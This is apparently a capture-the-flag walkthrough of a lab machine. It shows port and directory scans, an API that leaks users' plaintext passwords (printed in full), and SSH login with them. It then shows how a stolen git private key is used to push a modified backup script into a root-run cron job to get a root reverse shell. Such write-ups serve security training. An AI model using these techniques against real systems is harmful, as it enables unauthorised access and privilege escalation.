

# Network Enumeration

```bash
┌──(aaron㉿aacai)-[~/Desktop/Script]
└─$ sudo nmap --top-ports=50 -Pn 192.168.241.125
[sudo] password for aaron: 
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-11 11:05 +0330
Nmap scan report for 192.168.241.125
Host is up (0.26s latency).
Not shown: 49 filtered tcp ports (no-response)
PORT     STATE SERVICE
8080/tcp open  http-proxy

```

# Website Enumeration

```bash
┌──(aaron㉿aacai)-[~/Desktop/Script]
└─$ feroxbuster --url "http://192.168.241.125:8080" 

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.10.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://192.168.241.125:8080
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.10.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
200      GET        2l       51w     1851c http://192.168.241.125:8080/js/browser.min.js
200      GET        2l       87w     2439c http://192.168.241.125:8080/js/breakpoints.min.js
200      GET       51l      112w     1029c http://192.168.241.125:8080/js/main.js
200      GET       87l      158w     1835c http://192.168.241.125:8080/article/a-poppy-blooms
200      GET       87l      160w     1837c http://192.168.241.125:8080/article/the-old-pond
200      GET       87l      160w     1837c http://192.168.241.125:8080/article/over-the-wintry
200      GET       87l      167w     1859c http://192.168.241.125:8080/article/in-a-station-of-the-metro
200      GET       87l      159w     1852c http://192.168.241.125:8080/article/lighting-one-candle
500      GET        1l        3w      105c http://192.168.241.125:8080/error
200      GET       87l      162w     1834c http://192.168.241.125:8080/article/a-world-of-dew
200      GET       87l      155w     1805c http://192.168.241.125:8080/article/the-taste-of-rain
200      GET      587l     1232w    12433c http://192.168.241.125:8080/js/util.js
200      GET     2013l     3717w    32528c http://192.168.241.125:8080/css/main.css
200      GET        2l     1276w    88145c http://192.168.241.125:8080/js/jquery.min.js
200      GET      137l      280w     3762c http://192.168.241.125:8080/
[####################] - 3m     30020/30020   0s      found:21      errors:0      
[####################] - 3m     30000/30000   162/s   http://192.168.241.125:8080/ 
```

Check all of the posts, I can find a comment on source code.


Try to access.


Then return the path, if access to article, the username and password will show.


Use the [jsonformatter](https://jsonformatter.org/json-pretty-print) to format

```json
[
  {
    "title": "The Taste of Rain",
    "headline": "Jack Kerouac",
    "content": "The taste, Of rain, —Why kneel?",
    "author": {
      "login": "jvargas",
      "password": "OuQ96hcgiM5o9w",
      "firstname": "James",
      "lastname": "Vargas",
      "description": "Editor",
      "id": 10
    },
    "slug": "the-taste-of-rain",
    "addedAt": "2023-02-17T20:09:48.887196",
    "id": 12
  },
  {
    "title": "In a Station of the Metro",
    "headline": "Ezra Pound",
    "content": "The apparition of these faces in the crowd; Petals on a wet, black bough.",
    "author": {
      "login": "jvargas",
      "password": "OuQ96hcgiM5o9w",
      "firstname": "James",
      "lastname": "Vargas",
      "description": "Editor",
      "id": 10
    },
    "slug": "in-a-station-of-the-metro",
    "addedAt": "2023-02-17T20:09:48.885914",
    "id": 11
  },
  {
    "title": "Over the Wintry",
    "headline": "Natsume Soseki",
    "content": "Over the wintry Forest, winds howl in rage, With no leaves to blow.",
    "author": {
      "login": "jwinters",
      "password": "KTuGcSW6Zxwd0Q",
      "firstname": "Julie",
      "lastname": "Winters",
      "description": "Editor",
      "id": 7
    },
    "slug": "over-the-wintry",
    "addedAt": "2023-02-17T20:09:48.883744",
    "id": 9
  },
  {
    "title": "A Poppy Blooms",
    "headline": "Katsushika Hokusai",
    "content": "I write, erase, rewrite. Erase again, and then, A poppy blooms.",
    "author": {
      "login": "jwinters",
      "password": "KTuGcSW6Zxwd0Q",
      "firstname": "Julie",
      "lastname": "Winters",
      "description": "Editor",
      "id": 7
    },
    "slug": "a-poppy-blooms",
    "addedAt": "2023-02-17T20:09:48.882457",
    "id": 8
  },
  {
    "title": "Lighting One Candle",
    "headline": "Yosa Buson",
    "content": "The light of a candle, Is transferred to another candle—, Spring twilight",
    "author": {
      "login": "jsanchez",
      "password": "d52cQ1BzyNQycg",
      "firstname": "Jennifer",
      "lastname": "Sanchez",
      "description": "Editor",
      "id": 3
    },
    "slug": "lighting-one-candle",
    "addedAt": "2023-02-17T20:09:48.879173",
    "id": 5
  },
  {
    "title": "A World of Dew",
    "headline": "Kobayashi Issa",
    "content": "A world of dew, And within every dewdrop, A world of struggle. ",
    "author": {
      "login": "jsanchez",
      "password": "d52cQ1BzyNQycg",
      "firstname": "Jennifer",
      "lastname": "Sanchez",
      "description": "Editor",
      "id": 3
    },
    "slug": "a-world-of-dew",
    "addedAt": "2023-02-17T20:09:48.877871",
    "id": 4
  },
  {
    "title": "The Old Pond",
    "headline": "Matsuo Basho",
    "content": "An old silent pond, A frog jumps into the pond—, Splash! Silence again.",
    "author": {
      "login": "rjackson",
      "password": "yYJcgYqszv4aGQ",
      "firstname": "Richard",
      "lastname": "Jackson",
      "description": "Editor",
      "id": 1
    },
    "slug": "the-old-pond",
    "addedAt": "2023-02-17T20:09:48.866861",
    "id": 2
  }
]
```

Also access to `/api/user/` will get another username and password.


Then we can get some username and password, now store them to the txt file.


But at first we just get the port 8080, now we need to scan all ports that were opened.

```bash
┌──(aaron㉿aacai)-[~/Desktop/Script/nmapAutomator]
└─$ nmap -p8080,12445,18030,43022 -A -sT -Pn 192.168.241.125
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-11 11:22 +0330
Stats: 0:00:00 elapsed; 0 hosts completed (0 up), 0 undergoing Host Discovery
Parallel DNS resolution of 1 host. Timing: About 0.00% done
Stats: 0:00:13 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 25.00% done; ETC: 11:23 (0:00:21 remaining)
Nmap scan report for 192.168.241.125
Host is up (0.26s latency).

PORT      STATE SERVICE     VERSION
8080/tcp  open  http-proxy
12445/tcp open  netbios-ssn Samba smbd 4.6.2
18030/tcp open  http        Apache httpd 2.4.46 ((Unix))
43022/tcp open  ssh         OpenSSH 8.4 (protocol 2.0)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 74.74 seconds

```

We can see the port 43022 is `ssh.` User `dademola` looks like is a normal password, try to login with `dademola`.


Yeah, it's work.

# PE

```bash
╔══════════╣ Operative system
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#kernel-exploits                                                                                                                                               
Linux version 5.9.4-arch1-1 (linux@archlinux) (gcc (GCC) 10.2.0, GNU ld (GNU Binutils) 2.35.1) #1 SMP PREEMPT Wed, 04 Nov 2020 21:41:09 +0000                                                                                    
LSB Version:    1.4
Distributor ID: Arch
Description:    Arch Linux
Release:        rolling
Codename:       n/a


                ╔════════════════════════════════════════════════╗
════════════════╣ Processes, Crons, Timers, Services and Sockets ╠════════════════                                                                                                                                       
╔══════════╣ Cleaned processes
╚ Check weird & unexpected proceses run by root: https://book.hacktricks.xyz/linux-hardening/privilege-escalation#processes                                                                                                      
root           1  0.1  0.2  28288 11284 ?        Ss   08:00   0:00 /sbin/init
dademola     453  4.0  6.4 3625276 261332 ?      Ssl  08:00   0:11 /usr/bin/java -jar /home/dademola/blog.jar


╔══════════╣ Cron jobs
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#scheduled-cron-jobs        
*/3 * * * * /root/git-server/backups.sh
*/2 * * * * /root/pull.sh

╔══════════╣ Active Ports
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#open-ports                                                                                                                                                    
tcp        0      0 0.0.0.0:43022           0.0.0.0:*               LISTEN      -   
tcp        0      0 0.0.0.0:12445           0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::18030                :::*                    LISTEN      -                   
tcp6       0      0 :::43022                :::*                    LISTEN      -                   
tcp6       0      0 :::8080                 :::*                    LISTEN      453/java            
tcp6       0      0 :::12445                :::*                    LISTEN      -        

╔══════════╣ Superusers
root:x:0:0::/root:/bin/bash                                                                                                                                                                                                      

╔══════════╣ Users with console
dademola:x:1001:1001::/home/dademola:/bin/bash                                                                                                                                                                                   
root:x:0:0::/root:/bin/bash

╔══════════╣ All users & groups
uid=0(root) gid=0(root) groups=0(root)                                                                                                                                                                                           
uid=1(bin) gid=1(bin) groups=1(bin),3(sys),2(daemon[0m)
uid=1001(dademola) gid=1001(dademola) groups=1001(dademola)
uid=1005(git) gid=1005(git) groups=1005(git)
uid=14(ftp) gid=11(ftp) groups=11(ftp)
uid=2(daemon[0m) gid=2(daemon[0m) groups=2(daemon[0m),999(adm),1(bin)
uid=33(http) gid=33(http) groups=33(http)
uid=65534(nobody) gid=65534(nobody) groups=65534(nobody)
uid=68(uuidd) gid=68(uuidd) groups=68(uuidd)
uid=8(mail) gid=12(mail) groups=12(mail)
uid=81(dbus) gid=81(dbus) groups=81(dbus)
uid=976(avahi) gid=976(avahi) groups=976(avahi)
uid=977(dhcpcd) gid=977(dhcpcd) groups=977(dhcpcd)
uid=978(systemd-coredump) gid=978(systemd-coredump) groups=978(systemd-coredump)
uid=979(systemd-timesync) gid=979(systemd-timesync) groups=979(systemd-timesync)
uid=980(systemd-resolve) gid=980(systemd-resolve) groups=980(systemd-resolve)
uid=981(systemd-network) gid=981(systemd-network) groups=981(systemd-network)
uid=982(systemd-journal-remote) gid=982(systemd-journal-remote) groups=982(systemd-journal-remote)


╔══════════╣ Analyzing SSH Files (limit 70)  
-rwxr-xr-x 1 root root 2590 Nov  5  2020 /home/git/.ssh/id_rsa
-rwxr-xr-x 1 root root 564 Nov  5  2020 /home/git/.ssh/id_rsa.pub
══╣ Possible private SSH keys were found!
/home/dademola/.gradle/caches/5.6.4/generated-gradle-jars/gradle-api-5.6.4.jar
/home/git/.ssh/id_rsa

```

We know here are git-server on this machine because of there are git user that we got the .ssh file.

```bash
┌──(aaron㉿aacai)-[~/Desktop/pg/hunit]
└─$ mousepad id_rsa       
                                                                                                               
┌──(aaron㉿aacai)-[~/Desktop/pg/hunit]
└─$ chmod 600 id_rsa
                                                           
┌──(aaron㉿aacai)-[~/Desktop/pg/hunit]
└─$ ssh -i id_rsa git@192.168.241.125 -p 43022
git> help
unrecognized command 'help'
git> whoami
unrecognized command 'whoami'
git> 


```

But that just a git shell, so we can't run any commands here, we were find the `git-server` on linpeas with cron job, now download the git file with `git clone `, also check the git log.

```bash
[dademola@hunit ~]$ git clone file:////git-server/
Cloning into 'git-server'...
remote: Enumerating objects: 12, done.
remote: Counting objects: 100% (12/12), done.
remote: Compressing objects: 100% (9/9), done.
remote: Total 12 (delta 2), reused 0 (delta 0), pack-reused 0
Receiving objects: 100% (12/12), done.
Resolving deltas: 100% (2/2), done.
[dademola@hunit ~]$ ls
blog.jar  git-server  linpeas.sh  local.txt  shared
[dademola@hunit ~]$ cd git-server/
[dademola@hunit git-server]$ ls
NEW_CHANGE  README  backups.sh
[dademola@hunit git-server]$ cat backups.sh 
#!/bin/bash
#
#
# # Placeholder
#
[dademola@hunit git-server]$ git log
commit b50f4e5415cae0b650836b5466cc47c62faf7341 (HEAD -> master, origin/master, origin/HEAD)
Author: Dademola <dade@local.host>
Date:   Thu Nov 5 21:05:58 2020 -0300

    testing

commit c71132590f969b535b315089f83f39e48d0021e2
Author: Dademola <dade@local.host>
Date:   Thu Nov 5 20:59:48 2020 -0300

    testing

commit 8c0bc9aa81756b34cccdd3ce4ac65091668be77b
Author: Dademola <dade@local.host>
Date:   Thu Nov 5 20:54:50 2020 -0300

    testing

commit 574eba09bb7cc54628f574a694a57cbbd02befa0
Author: Dademola <dade@local.host>
Date:   Thu Nov 5 20:39:14 2020 -0300

    Adding backups

commit 025a327a0ffc9fe24e6dd312e09dcf5066a011b5
Author: Dademola <dade@local.host>
Date:   Thu Nov 5 20:23:04 2020 -0300

    Init
```

The `backups.sh` also is a part of cron job, but there are not any commands, try to edit the script file then update to git.


```bash
[dademola@hunit git-server]$ git commit -m "aaron"
Author identity unknown

*** Please tell me who you are.

Run

  git config --global user.email "you@example.com"
  git config --global user.name "Your Name"

to set your account's default identity.
Omit --global to set the identity only in this repository.

fatal: unable to auto-detect email address (got 'dademola@hunit.(none)')
[dademola@hunit git-server]$ git config --global user.name "dademola"
[dademola@hunit git-server]$ git config --global user.email "dademola"
[dademola@hunit git-server]$ git commit -m "aaron"
[master 4312092] aaron
 1 file changed, 2 insertions(+), 1 deletion(-)
[dademola@hunit git-server]$ git push -u origin
Enumerating objects: 5, done.
Counting objects: 100% (5/5), done.
Delta compression using up to 2 threads
Compressing objects: 100% (3/3), done.
Writing objects: 100% (3/3), 288 bytes | 288.00 KiB/s, done.
Total 3 (delta 1), reused 0 (delta 0), pack-reused 0
error: remote unpack failed: unable to create temporary object directory
To file:////git-server/
 ! [remote rejected] master -> master (unpacker error)
error: failed to push some refs to 'file:////git-server/'
[dademola@hunit git-server]$                                  
```

But it's failed, then google use private key to update the git. [stackoverflow](https://stackoverflow.com/questions/4565700/how-to-specify-the-private-ssh-key-to-use-when-executing-shell-command-on-git)



with the command:

```bash
GIT_SSH_COMMAND='ssh -i private_key_file -o IdentitiesOnly=yes' git clone user@host:repo.git
```

Then running on kali:

```bash
┌──(aaron㉿aacai)-[~/Desktop/pg/hunit]
└─$ GIT_SSH_COMMAND='ssh -i id_rsa -p 43022 -o IdentitiesOnly=yes' git clone git@192.168.241.125:/git-server/
Cloning into 'git-server'...
remote: Enumerating objects: 12, done.
remote: Counting objects: 100% (12/12), done.
remote: Compressing objects: 100% (9/9), done.
remote: Total 12 (delta 2), reused 0 (delta 0), pack-reused 0
Receiving objects: 100% (12/12), done.
Resolving deltas: 100% (2/2), done.
                                                                                                                                           
┌──(aaron㉿aacai)-[~/Desktop/pg/hunit]
└─$ cd git-server 
                                                                                                               
┌──(aaron㉿aacai)-[~/Desktop/pg/hunit/git-server]
└─$ ls
backups.sh  NEW_CHANGE  README
                                                           
┌──(aaron㉿aacai)-[~/Desktop/pg/hunit/git-server]
└─$ git config --global user.name "aaron"               
                                                                                                               
┌──(aaron㉿aacai)-[~/Desktop/pg/hunit/git-server]
└─$ git config --global user.email "aaron@kali.(none)"
                                                                                                               
┌──(aaron㉿aacai)-[~/Desktop/pg/hunit/git-server]
└─$ mousepad backups.sh

┌──(aaron㉿aacai)-[~/Desktop/pg/hunit/git-server]
└─$ chmod +x backups.sh 
                                                                
┌──(aaron㉿aacai)-[~/Desktop/pg/hunit/git-server]
└─$ git add -A         
                                                                                                               
┌──(aaron㉿aacai)-[~/Desktop/pg/hunit/git-server]
└─$ git commit -m "pwn"                                                                     
[master 019c880] pwn
 1 file changed, 0 insertions(+), 0 deletions(-)
 mode change 100644 => 100755 backups.sh

                                                                                                               
┌──(aaron㉿aacai)-[~/Desktop/pg/hunit/git-server]
└─$ GIT_SSH_COMMAND='ssh -i /home/aaron/Desktop/pg/hunit/id_rsa -p 43022' git push -u origin
Enumerating objects: 3, done.
Counting objects: 100% (3/3), done.
Delta compression using up to 4 threads
Compressing objects: 100% (2/2), done.
Writing objects: 100% (2/2), 212 bytes | 212.00 KiB/s, done.
Total 2 (delta 1), reused 0 (delta 0), pack-reused 0
To 192.168.241.125:/git-server/
   b8cb507..019c880  master -> master
branch 'master' set up to track 'origin/master'.


```

Then waiting for rev shell.


Get root shell.(**REMEMBER ADD EXECUTE PERMISSION FOR SCRIPT**)